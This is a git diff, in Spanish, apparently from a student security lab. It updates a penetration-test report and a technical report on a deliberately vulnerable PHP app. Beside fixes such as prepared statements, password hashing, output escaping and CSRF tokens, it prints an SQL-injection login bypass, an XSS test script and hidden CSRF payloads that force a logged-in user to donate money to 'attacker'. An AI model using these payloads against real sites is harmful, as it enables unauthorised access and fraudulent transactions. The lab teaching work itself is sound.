

Cambios en Informe Pentesting y Tecnico

diff --git a/Web_Talent-ScoutTech/web/private/auth.php b/Web_Talent-ScoutTech/web/private/auth.php
@@ -64,6 +64,9 @@ if (isset($_POST['Logout'])) {
 
 // Si el usuario no está logueado, mostrar la página de login
 if (!$login_ok) {
+    header("Location: login.php");
+    exit();
+}
 ?>
     <!doctype html>
     <html lang="es">

diff --git a/InformePentesting.md b/InformePentesting.md
@@ -28,28 +28,276 @@ SELECT userId, password FROM users WHERE username \= """. Field user introduced 
 
 **B**
 
-En el formulario de inicio de sesion, he realizado una inyeccion SQL estavez con este formato en el campo de usuario ` OR PASSWORD="1234" \-- \-` y hemos usado la contraseña `1234`.
+En el formulario de inicio de sesion, he realizado una inyeccion SQL estavez con este formato en el campo de usuario ` OR PASSWORD="1234" -- -` y hemos usado la contraseña `1234`.
 
 ![Descripción de la imagen](img/3.png)
+
+Con esto conseguimos loguearnos sin usar el nombre de usuario y sabiendo que la contraseña de uno de los usuarios es `1234`
+
+**C**
+
+Al acceder al código del archivo `auth.php`, se puede ver que en la función `areUserAndPasswordValid()` se utiliza `SQLite3::escapeString()`. Esta función no hace que el código sea seguro frente a inyecciones SQL, ya que solo escapa comillas simples y algunos caracteres especiales. Esto permite que un atacante pueda manipular la consulta SQL usando comillas dobles o caracteres especiales. Por lo tanto, es necesario modificar el código y utilizar consultas preparadas.
+
+Se cambia el codigo original por algo parecido a esto:
+
+```sql
+$query \= $db-\>prepare('SELECT userId, password FROM users WHERE username \= :username'); 
+$query-\>bindValue(':username', $user, SQLITE3\_TEXT); 
+$result \= $stmt-\>execute();
+```
+
+**D**
+
+La vulnerabilidad encontrada en `add\_comment.php~` es que es vulnerable a XSS.
+
+![Descripción de la imagen](img/4.png)
+
+Para solucionar esto, podemos formatear los datos antes de mostrarlos para evitar el XSS.
+
+```sql
+ $body = htmlspecialchars($_POST['body'], ENT_QUOTES, 'UTF-8');
+```
 
 
 ## XSS
 
+**A**
+
+Comprobamos que la web es vulnerable a XSS accediendo al formulario de la pagina `add_comment.php` y añadiendo un comentario con forma de script, por ejemplo `<script\>alert('Comprobar XSS');\</script\>`.
+
+![Descripción de la imagen](img/6.png)
+
+**B**
+
+`&amp;`  una entidad HTML que representa el carácter `&` de forma segura. Si no se escapa de manera correcta se puede aprovechar para inyectar HTML o JavaScript (XSS).
+
+**C**
+
+En  `show\_comments.php` vemos que al mostrar los comentarios, el código no escapa la salida antes de mostrar el HTML.
+
+![Descripción de la imagen](img/7.png)
+
+Podriamos solucionar esto de la siguiente manera:
+
+```sql
+echo htmlspecialchars($escapedBody, ENT_QUOTES, 'UTF-8');
+```
+
+**D**
+
+Las otras paginas que son vulneradas por este mismo problema con el XSS son `buscador.html` y `insert\_player.php`.
+Para descubrir esta misma vulnerabilidad, hemos inyectado script en los formularios de dichas paginas y efectivamente son vulnerables a XSS.
+Me gustaria destacar que en `insert\_player.php` se puede cambiar el maxlenght ya que viene limitado a 30 caracteres.
+
+Vulnerabilidad en `buscador.html`.
+
+![Descripción de la imagen](img/8.png)
+
+Vulnerabilidad en `insert\_player.php`.
+
+![Descripción de la imagen](img/9.png)
 
 
 ## Control de acceso, autenticacion y sesiones de usuarios
 
+**A**
+
+Vamos a cambiar el codigo de `register.php` para evitar el acceso de usuarios que no existan, vamos a encriptar la contraseña y preparar las consultas para evitar inyecciones SQL.
+
+```php
+<?php
+require_once dirname(__FILE__) . '/private/conf.php';
 
 
+# Validación de los datos de entrada 
+if (isset($_POST['username']) && isset($_POST['password'])) {
+    $username = $_POST['username'];
+    $password = $_POST['password'];
+
+    // Validar username: solo letras y números
+    if (!preg_match("/^[a-zA-Z0-9]*$/", $username)) {
+        die("Invalid username format.");
+    }
+
+    // Validar password (mínimo 8 caracteres, al menos una letra y un número)
+    if (!preg_match("/^(?=.*[A-Za-z])(?=.*\d)[A-Za-z\d]{8,}$/", $password)) {
+        die("Password must be at least 8 characters long, and contain at least one letter and one number.");
+    }
+
+    // Verificar si el usuario ya existe
+    $query = "SELECT * FROM users WHERE username = :username";
+    $stmt = $db->prepare($query);
+    $stmt->bindParam(':username', $username, SQLITE3_TEXT);
+    $result = $stmt->execute();
+
+    if ($result->fetchArray()) {
+        die("Username already taken.");
+    }
+
+    // Encriptar la contraseña
+    $hashed_password = password_hash($password, PASSWORD_DEFAULT);
+
+    // Usar una sentencia preparada para la inserción segura
+    $query = "INSERT INTO users (username, password) VALUES (:username, :password)";
+    $stmt = $db->prepare($query);
+    $stmt->bindParam(':username', $username, SQLITE3_TEXT);
+    $stmt->bindParam(':password', $hashed_password, SQLITE3_TEXT);
+
+    if ($stmt->execute()) {
+        header("Location: list_players.php");
+    } else {
+        die("Failed to register user.");
+    }
+}
+
+# Show form
+
+?>
+```
+
+
+**B**
+
+Implementamos medidas de seguridad clave en `auth.php`: usamos sesiones en lugar de cookies, consultas SQL preparadas para evitar inyecciones, y password_verify() para la validación segura de contraseñas. Además, almacenamos de forma segura los datos de autenticación en la sesión y gestionamos el cierre de sesión adecuadamente. 
+
+```php
+<?php
+require_once dirname(__FILE__) . '/conf.php';
+
+session_start(); // Iniciar sesión en lugar de usar cookies
+
+$userId = FALSE;
+
+# Comprobar si el usuario y la contraseña son válidos
+function areUserAndPasswordValid($user, $password) {
+    global $db, $userId;
+
+    // Sentencia preparada para evitar SQL Injection
+    $query = "SELECT userId, password FROM users WHERE username = :username";
+    $stmt = $db->prepare($query);
+    $stmt->bindParam(':username', $user, SQLITE3_TEXT);
+    $result = $stmt->execute();
+    $row = $result->fetchArray();
+
+    if (!isset($row['password'])) return FALSE;
+
+    // Verificar si la contraseña es válida
+    if (password_verify($password, $row['password'])) {
+        $userId = $row['userId'];
+        $_SESSION['userId'] = $userId; // Almacenar en sesión
+        $_SESSION['user'] = $user; // Guardar usuario en sesión
+        return TRUE;
+    } else {
+        return FALSE;
+    }
+}
+
+# Login
+if (isset($_POST['username']) && isset($_POST['password'])) {
+    $username = $_POST['username'];
+    $password = $_POST['password'];
+
+    if (areUserAndPasswordValid($username, $password)) {
+        $login_ok = TRUE;
+        $error = "";
+    } else {
+        $login_ok = FALSE;
+        $error = "Invalid user or password.<br>";
+    }
+}
+
+# Logout
+if (isset($_POST['Logout'])) {
+    // Cerrar sesión de manera segura
+    session_unset(); // Eliminar todas las variables de sesión
+    session_destroy(); // Destruir la sesión
+    header("Location: index.php");
+    exit;
+}
+
+# Si el usuario no está logueado, mostrar la página de login
+if (!$login_ok) {
+    header("Location: login.php");
+    exit();
+}
+?>
+
+```
+
+**C**
+
+En `register.php`, hemos asegurado el acceso al registro al redirigir a los usuarios no autenticados al login, aplicar control de acceso por roles y proteger el formulario con un token CSRF, limitando el registro solo a usuarios con permisos específicos.
+
+**D**
+
+Para corregir la vulnerabilidad, se debe usar una imagen predefinida, configurar el servidor web para restringir el acceso a la carpeta private mediante permisos adecuados, y almacenar configuraciones sensibles fuera del directorio raíz de la web, garantizando así la protección de datos y la seguridad del sistema.
+
+**E**
+
+Para mejorar la seguridad en la autenticación, se utiliza `$_SESSION` para gestionar el acceso del usuario, configurando las cookies de sesión con los atributos `HttpOnly`,  `Secure` y `SameSite` para protegerlas contra ataques como el XSS y CSRF. Además, se incluyen tokens de seguridad en los formularios para prevenir la falsificación de solicitudes.
 
 ## Servidores web
 
-
+Para asegurar la sesión del usuario, debemos usar `HTTPS`, configurar HSTS en el servidor y regenerar la sesión al iniciar sesión. También es importante proteger las cookies con los atributos `HttpOnly` y `Secure`. Para prevenir inyecciones SQL, XSS y CSRF, implementamos consultas preparadas, escapamos entradas y usamos tokens CSRF. Además, podemos mejorar la gestión de cookies con expiración o límites para reforzar la seguridad.
 
 
 ## CSRF
 
+**A**
+
+Para añadir el boton bajo el nombre del equipo ponemos este codigo:
+
+```html
+<a href="http://web.pagos/donate.php?amount=100\&receiver=attacker" style="text-decoration: none;"> <button>Profile</button></a>
+```
+
+![Descripción de la imagen](img/10.png)
+
+Y quedaria de la siguiente manera:
+
+![Descripción de la imagen](img/11.png)
 
 
+**B**
+
+Para que ese codigo se ejecute sin que el usuario lo note he usado `<img>` con el enlace en `show\_comments.php`.
+
+```html
+<img src="http://web.pagos/donate.php?amount=100&receiver=attacker" style="display:none;">
+```
+
+
+
+**C**
+
+Para que funcionase necesitariamos tener un usuario autenticado en esa pagina y una sesión activa. 
+
+**D**
+
+Para ello tendriamos que poner un comentario mas extenso:
+
+```html
+<img src="x" onerror="
+var form = document.createElement('form');
+form.method = 'POST';
+form.action = 'http://web.pagos/donate.php';
+form.style.display = 'none';
+
+var amountInput = document.createElement('input');
+amountInput.type = 'hidden';
+amountInput.name = 'amount';
+amountInput.value = '100';
+form.appendChild(amountInput);
+
+var receiverInput = document.createElement('input');
+receiverInput.type = 'hidden';
+receiverInput.name = 'receiver';
+receiverInput.value = 'attacker';
+form.appendChild(receiverInput);
+
+document.body.appendChild(form);
+form.submit();
+" style="display:none;">
+```
 
 

diff --git a/InformeTecnico.md b/InformeTecnico.md
@@ -69,8 +69,8 @@
 | XSS \- C |  |
 | ----- | :---- |
 | ¿Cual es el problema? | Hay que escapar las  |
-| Sustituyo el código de la/las líneas… | echo "\<div\> \<h4\> ". $row\['username'\] ."\</h4\>  \<p\>commented: " . $row\['body'\] .    "\</p\> \</div\>";|
-| Por el siguiente código | echo "\<div\> \<h4\>" . htmlspecialchars($row\['username'\], ENT\_QUOTES, 'UTF-8') . "\</h4\> \<p\>commented: " . htmlspecialchars($row\['body'\], ENT\_QUOTES, 'UTF-8') .  "\</p\> \</div\>";|
+| Sustituyo el código de la/las líneas… | $body = $_POST['body']; $body = SQLite3::escapeString($body);|
+| Por el siguiente código | $body = $_POST['body']; $escapedBody = SQLite3::escapeString($body);|
 
 
 **D**
@@ -138,7 +138,7 @@ if (isset($_POST['username']) && isset($_POST['password'])) {
 
 **B**
 
-Para evitar riesgos, debemos verificar si el nombre de usuario ya existe en la base de datos, encriptar la contraseña antes de guardarla para protegerla, y usar consultas preparadas para separar las sentencias SQL y prevenir ataques de inyección. Estas medidas aseguran que los datos de los usuarios estén protegidos y que la aplicación sea más segura.
+Para evitar riesgos, es importante usar sesiones para gestionar la autenticación, prevenir inyecciones SQL con consultas preparadas, verificar las contraseñas de manera segura usando `password_verify()`, asegurarse de que el cierre de sesión sea seguro y proteger contra ataques CSRF. Estas medidas ayudan a mantener los datos del usuario seguros y garantizan un acceso controlado y protegido.
 
 ```php
 <?php
@@ -197,6 +197,9 @@ if (isset($_POST['Logout'])) {
 
 # Si el usuario no está logueado, mostrar la página de login
 if (!$login_ok) {
+    header("Location: login.php");
+    exit();
+}
 ?>
 
 ```
